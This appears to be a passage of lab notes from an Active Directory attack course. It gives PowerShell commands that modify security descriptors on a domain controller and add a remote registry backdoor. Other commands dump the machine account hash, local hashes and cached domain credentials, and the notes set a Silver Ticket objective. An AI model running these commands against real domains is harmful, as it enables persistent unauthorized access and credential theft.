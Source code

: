 **On local machine for student1**:
```powershell
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

**On remote machine for student1 without credentials**:
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

**On remote machine, remove the permissions**:
```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```


## Remote Registry

**Using RACE or DAMP, with admin privs on remote machine**:
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

**As student1, retrieve machine account hash**:
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

**Retrieve local account hash**:
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

**Retrieve domain cached credentials**:
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```


Learning Objective 13

- Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access.
- Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI.

